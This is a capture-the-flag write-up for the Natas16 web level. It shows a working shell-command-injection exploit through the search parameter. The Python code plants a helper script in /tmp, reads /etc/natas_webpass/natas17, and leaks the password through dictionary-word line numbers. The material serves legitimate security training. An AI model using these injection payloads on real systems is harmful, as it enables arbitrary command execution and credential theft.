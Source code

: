 # Natas16

## Solution 1: exfiltrating the password 2-characters per request 

Vulnerabilities:
- Shell comannd injection using: $( ) and < >
- Read/Write/Execute access to /tmp folder

### Making use of large result set
This approach takes advantage of the large amount of possible return values, to minimize the number of requests needed to get the password.
In this case, only 16 requests were needed to exfiltrate the 32-characters password.

The file 'dictionary.txt' has 50253 unique rows, so an exploit can signal any value in the range 1-50253.
For example, to signal the value 9158 we can check what is the word that line in the dictionary => congratulations.
By providing _^congratulations$_ to the grep command, we should get the same word on the html output.
Wrapped with ^ and $ guarantees no characters before and after the search string.

On the client side, the response word could be the searched in a local copy of dictionary and the found line number would be the signaled number.

### "Shifter" Helper utility - pick one parameter from a list by its index
This bash script was needed to bypass pipes and quotes characters filters.
code:
shift $1
echo $1

usage:
shifter.sh 3 100 200 300 400 500
will return 300

In order to install this script:
1. Encode it as base64.
```python
shifter_script = "shift $1\necho $1\n\n"
shifter_b64 = base64.b64encode(bytes(shifter_script,"ascii")).decode('ascii')
```

2. Write it to /tmp folder
```python
payload = f'$(echo -n {shifter_b64} > /tmp/shifter.b64)'
r = requests.get(f'{base_url}/?needle={quote(payload)})', auth=auth)
```  

3. Base64 decode it
```python
payload = '$(base64 -d < /tmp/shifter.b64 > /tmp/shifter.sh)'
r = requests.get(f'{base_url}/?needle={quote(payload)})', auth=auth)
```

4. Make it executable
```python
payload='$(chmod a+x /tmp/shifter.sh)'
r = requests.get(f'{base_url}/?needle={quote(payload)})', auth=auth)
```

### Getting a copy of dictionary.txt
```python
r = requests.get(f'{base_url}/dictionary.txt', auth=auth)
diclines = r.text.splitlines() 
```

### Exfiltrating the password characters
Since the password has only ASCII characters (code < 128), each pair of characters packed as 16-bit unsigned intger would have the maximum value of:
127*256 + 127 = 32639. This fits nicely into the 50253 options available.

So, for each character pair, the request should perform:

* Convert the password string to a list of 16-bit unsigned int numbers (each pair of characters to a number)
```
od -An -tu2 -w64 < /etc/natas_webpass/natas17
```

* Pick a specific number from a list
```
/tmp/shifter.sh {index} {list of numbers}
```

* Search the dictionary for a specific line number:
```
sed -n {line_number}p < dictionary.txt
```

```python
matches = []
for pair in range(1,17): 
  payload=f'^$(sed -n $(/tmp/shifter.sh {pair} $(od -An -tu2 -w64 < /etc/natas_webpass/natas17))p < dictionary.txt)$'
  r = requests.post(base_url, data={"needle": payload}, auth=auth)
  reply_text = r.text.replace('\n', ' ').replace('\r', '')
  m = re.search('<pre>(.+)</pre>', reply_text)
  word = m.group(1).strip()
  matches.append(word)
```

Result processing:
The HTML result for each request is parsed using Regex to extract matching word.
That word is searched on the dictionary to get its line number.
The line number is split to two bytes that are converted to characters.

All the resulting characters are then combined to the target password

```python
elb = []
for m in matches:
  i = diclines.index(m)+1
  elb.append(i & 255)
  elb.append(i >> 8)

#password
print("".join([chr(c) for c in elb]))

#cleanup
payload = '$(rm /tmp/shifter.*)'
r = requests.get(f'{base_url}/?needle={quote(payload)})', auth=auth)
```
